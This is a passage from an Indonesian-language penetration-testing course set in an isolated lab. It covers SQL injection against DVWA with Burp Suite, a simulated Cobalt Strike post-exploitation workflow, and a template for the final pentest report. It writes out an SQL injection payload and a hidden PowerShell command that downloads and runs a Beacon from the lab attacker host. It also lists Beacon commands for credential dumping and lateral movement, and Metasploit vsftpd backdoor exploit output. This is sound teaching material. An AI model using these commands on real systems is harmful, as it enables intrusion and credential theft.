

#### **4.2. Menemukan dan Mengeksploitasi SQL Injection di DVWA**

Metasploitable 2 memiliki aplikasi web yang sengaja rentan bernama *Damn Vulnerable Web Application* (DVWA).

1.  **Akses DVWA**: Di Firefox (yang sudah dikonfigurasi proxy), buka `http://192.168.100.11/dvwa`.

2.  **Login**: Kredensial default adalah `admin` / `password`.

3.  **Atur Tingkat Kesulitan**: Di menu kiri, klik **DVWA Security**. Ubah *security level* menjadi **Low** dan klik *Submit*.

4.  **Pergi ke Halaman Target**: Klik menu **SQL Injection**. Anda akan melihat form input sederhana "User ID".


5.  **Cegat Request**:

      * Kembali ke Burp Suite, pergi ke tab **Proxy \> Intercept**. Pastikan tombolnya bertuliskan **Intercept is on**.
    
      * Kembali ke browser, di form User ID, masukkan angka `1` dan klik **Submit**.
    
      * Jendela Burp Suite akan muncul ke depan, menampilkan request HTTP yang dicegat.

    <!-- end list -->

    ```http
    GET /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
    Host: 192.168.100.101
    ... (headers lainnya) ...
    ```

6.  **Gunakan Repeater**:

      * Klik kanan di dalam jendela request dan pilih **Send to Repeater**. Ini memungkinkan kita untuk memodifikasi dan mengirim ulang request berkali-kali tanpa harus melalui browser.
      * Pergi ke tab **Repeater**. Anda akan melihat request yang sama. Klik **Send**. Di panel kanan, Anda akan melihat respons dari server, menampilkan detail untuk user ID 1.

7.  **Uji Injeksi SQL**:

      * **Tujuan**: Kita akan mencoba memanipulasi parameter `id` untuk mengubah logika kueri SQL di backend.
      * **Payload Sederhana**: Ubah nilai parameter `id` dari `1` menjadi `1' OR '1'='1`. Tanda kutip (`'`) digunakan untuk "keluar" dari string kueri, dan `OR '1'='1'` adalah kondisi yang selalu benar.
      * Request yang dimodifikasi di Repeater:
        ```http
        GET /dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit HTTP/1.1
        ...
        ```
      * Klik **Send**.
      * **Analisis Respons**: Perhatikan panel respons. Anda akan melihat bahwa server sekarang mengembalikan **semua** data pengguna dari database, bukan hanya user ID 1. Ini membuktikan bahwa Anda berhasil menyuntikkan logika SQL dan membypass filter `WHERE id=...`. Anda telah menemukan kerentanan SQL Injection.

-----

-----

### **F. MODUL 5 (MINGGU KE-5): SIMULASI PASCA-EKSPLOITASI DENGAN COBALT STRIKE**

**Tujuan:** Memahami konsep dan alur kerja dari *adversary simulation* tingkat lanjut, termasuk *C2 beaconing*, pengumpulan kredensial, dan gerakan lateral.

**Peringatan**: Cobalt Strike adalah tool komersial yang sangat kuat. Modul ini berfokus pada **simulasi konseptual** alur kerjanya.

#### **5.1. Konsep Inti Cobalt Strike**

  * **Team Server**: "Otak" dari operasi. Ini adalah server yang Anda jalankan di internet (atau di dalam lab) yang mengelola semua sesi dan listener.
  * **Client**: Antarmuka grafis yang digunakan oleh Anda (operator) untuk terhubung ke Team Server dan mengendalikan host yang terinfeksi.
  * **Listener**: Komponen di Team Server yang "mendengarkan" koneksi masuk dari host yang terinfeksi.
  * **Beacon**: *Payload* Cobalt Strike. Ini adalah *implant* yang sangat canggih dan tersembunyi yang berjalan di host target dan secara berkala "memanggil pulang" (*beaconing*) ke Listener untuk mendapatkan perintah.

##### **Diagram Arsitektur Cobalt Strike**



#### **5.2. Simulasi Alur Kerja Operasi**

Mari kita asumsikan kita memulai dari titik di mana kita sudah memiliki *shell* di Metasploitable 2 dari Modul 3.

1.  **Langkah 1: Penyiapan Listener (di Cobalt Strike)**

      * Di antarmuka Cobalt Strike, operator akan membuat Listener baru. Tipe yang paling umum adalah **HTTP Beacon**. Operator akan mengkonfigurasinya untuk "memanggil pulang" ke alamat IP Team Server (di lab kita, ini bisa jadi IP Kali Linux, `192.168.100.10`).

2.  **Langkah 2: Pembuatan Payload (di Cobalt Strike)**

      * Operator akan menggunakan menu *Attacks* untuk membuat *payload*. Pilihan yang sangat populer adalah **Scripted Web Delivery**, yang menghasilkan satu baris perintah PowerShell. Perintah ini, ketika dieksekusi, akan mengunduh dan menjalankan *payload* Beacon sepenuhnya di memori, tanpa menyentuh disk (*fileless*).
      * Contoh Payload PowerShell: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.100.10/a'))"`

3.  **Langkah 3: Pengiriman dan Eksekusi (di Shell Metasploit)**

      * Kembali ke sesi *shell* yang kita dapatkan dari Metasploit di Modul 3.
      * Kita akan menyalin dan menempelkan perintah PowerShell dari Cobalt Strike ke dalam *shell* Metasploit dan menjalankannya di target.

4.  **Langkah 4: Beacon Check-in (di Cobalt Strike)**

      * Beberapa saat setelah perintah dieksekusi, sebuah entri baru akan muncul di antarmuka Cobalt Strike. Ini adalah **Beacon** kita\! Target telah berhasil dikompromikan dengan *payload* Cobalt Strike. Tampilan visual akan menunjukkan detail host, pengguna yang aktif, dll.

5.  **Langkah 5: Interaksi Pasca-Eksploitasi (di Cobalt Strike)**

      * Operator sekarang dapat berinteraksi dengan Beacon. Klik kanan pada target dan pilih **Interact**. Ini akan membuka konsol Beacon.
      * **Simulasi Perintah Umum:**
          * `beacon> sleep 0`
              * **Penjelasan**: Mengubah interval *beaconing* menjadi 0 detik untuk interaktivitas instan di lab. **Di operasi nyata, ini sangat buruk** karena menciptakan lalu lintas yang sangat berisik. Interval normal bisa 60 detik atau lebih dengan *jitter* (variasi acak).
          * `beacon> shell whoami`
              * **Penjelasan**: Menjalankan perintah `whoami` di target. Outputnya (`root`) akan kembali ke konsol Beacon.
          * `beacon> logonpasswords`
              * **Penjelasan**: Ini adalah alias Cobalt Strike untuk menjalankan alat seperti Mimikatz. Ini akan mencoba mengekstrak kredensial *plaintext* dan *hash* dari memori. Hasilnya akan ditampilkan di konsol.
          * `beacon> net view`
              * **Penjelasan**: Mencari host lain di jaringan. Ini adalah langkah awal untuk gerakan lateral.
          * `beacon> jump psexec <target_ip_lain> http_beacon`
              * **Penjelasan**: Ini adalah perintah **gerakan lateral**. Dengan menggunakan kredensial yang mungkin telah dicuri, perintah ini akan mencoba untuk mengotentikasi ke host lain (`<target_ip_lain>`), menyalin *payload* Beacon ke sana, dan menjalankannya. Jika berhasil, Beacon kedua akan muncul di antarmuka Cobalt Strike.

-----

-----

### **G. TUGAS: PENYUSUNAN LAPORAN UJI PENETRASI**

**Tujuan:** Mengkonsolidasikan semua temuan dari Modul 3, 4, dan 5 ke dalam sebuah laporan profesional yang mensimulasikan hasil dari sebuah *penetration test engagement*.

**Format Laporan:**

-----

**LAPORAN UJI PENETRASI: JARINGAN LAB `cyberlab-net`**

**Tanggal Engagement:** [Tanggal Mulai] - [Tanggal Selesai]
**Disusun oleh:** [Nama Anda / Kelompok Anda]

-----

**1. RINGKASAN EKSEKUTIF**
*(Ditujukan untuk manajemen. Hindari jargon teknis. Fokus pada risiko bisnis.)*
"Sebuah uji penetrasi internal dilakukan pada server target `192.168.100.101`. Tim berhasil mendapatkan **akses administratif penuh (root)** ke server ini dengan mengeksploitasi kerentanan kritis pada layanan FTP yang terekspos. Lebih lanjut, analisis terhadap aplikasi web yang di-host di server tersebut mengungkapkan kerentanan **SQL Injection** tingkat kritis, yang memungkinkan penyerang untuk membaca seluruh basis data pengguna. Temuan ini menunjukkan risiko tinggi terhadap kerahasiaan, integritas, dan ketersediaan data. Diperlukan tindakan perbaikan segera."

**2. RUANG LINGKUP DAN METODOLOGI**

  * **Ruang Lingkup**: Target yang diuji adalah `192.168.100.101`. Target di luar ruang lingkup adalah `192.168.100.100`.
  * **Metodologi**: Uji penetrasi mengikuti fase-fase berikut: Reconnaissance (Nmap), Vulnerability Analysis, Exploitation (Metasploit), dan Web Application Testing (Burp Suite).

**3. TEMUAN DAN REKOMENDASI PERBAIKAN**
*(Ini adalah bagian inti. Buat satu sub-bagian untuk setiap kerentanan yang ditemukan).*

**3.1. Temuan \#1: Eksekusi Kode Jarak Jauh via Backdoor VSFTPD**

  * **Tingkat Risiko**: **KRITIS**
  * **Deskripsi**: Layanan FTP yang berjalan di port 21/TCP teridentifikasi sebagai VSFTPD versi 2.3.4. Versi spesifik ini mengandung *backdoor* yang disengaja yang memungkinkan penyerang untuk mendapatkan *shell* dengan hak akses root tanpa otentikasi.
  * **Bukti Konsep (Proof of Concept)**:
    ```
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    msf6 exploit(...) > set RHOSTS 192.168.100.101
    msf6 exploit(...) > exploit
    [*] Command shell session 1 opened ...
    whoami
    root
    ```
  * **Dampak**: Kompromi total terhadap server, memungkinkan penyerang untuk mencuri data, menginstal *malware*, atau menggunakannya sebagai titik lompat untuk menyerang sistem lain.
  * **Rekomendasi**: Segera nonaktifkan dan hapus layanan VSFTPD yang rentan ini. Jika layanan FTP diperlukan, instal versi modern yang telah di-*patch* dari repositori resmi distribusi Linux.

**3.2. Temuan \#2: SQL Injection pada Halaman Login DVWA**

  * **Tingkat Risiko**: **KRITIS**
  * **Deskripsi**: Parameter `id` pada halaman SQL Injection di aplikasi web DVWA tidak melakukan validasi atau sanitasi input pengguna dengan benar. Hal ini memungkinkan penyerang untuk menyuntikkan kueri SQL arbitrer.
  * **Bukti Konsep (Proof of Concept)**:
      * Request Asli: `GET /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`
      * Request yang Dimodifikasi: `GET /dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit`
      * Hasil: Server mengembalikan semua record dari tabel pengguna, bukan hanya satu.
  * **Dampak**: Penyerang dapat membypass otentikasi, membaca semua data sensitif dari basis data (termasuk *hash* password pengguna), memodifikasi, atau menghapus data.
  * **Rekomendasi**: Terapkan *Prepared Statements* (Parameterized Queries) pada kode aplikasi untuk memisahkan data dari kueri SQL. Lakukan juga validasi input di sisi server untuk memastikan hanya tipe data yang diharapkan (dalam hal ini, integer) yang diterima.

**4. KESIMPULAN**
Server target `192.168.100.101` memiliki postur keamanan yang sangat lemah dan rentan terhadap kompromi penuh melalui beberapa vektor. Direkomendasikan agar server ini segera diisolasi dari jaringan produksi (jika ada) dan semua kerentanan kritis yang teridentifikasi segera diperbaiki.

-----

### **H. SUMBER PEMBELAJARAN**

  * **Metasploit**:
      * **Metasploit Unleashed**: Kursus gratis dan komprehensif dari Offensive Security. [https://www.offsec.com/metasploit-unleashed/](https://www.offsec.com/metasploit-unleashed/)
  * **Burp Suite**:
      * **PortSwigger Web Security Academy**: Platform pembelajaran gratis terbaik untuk keamanan aplikasi web, dari pembuat Burp Suite. [https://portswigger.net/web-security](https://portswigger.net/web-security)
  * **Cobalt Strike**:
      * **Blog Cobalt Strike**: Memberikan wawasan tentang TTPs dan cara kerja tool. [https://www.cobaltstrike.com/blog](https://www.cobaltstrike.com/blog)
  * **Praktik Tambahan**:
      * **Hack The Box** & **TryHackMe**: Platform untuk melatih keterampilan Anda pada mesin-mesin rentan lainnya.
          * [https://www.hackthebox.com/](https://www.hackthebox.com/)
          * [https://tryhackme.com/](https://tryhackme.com/)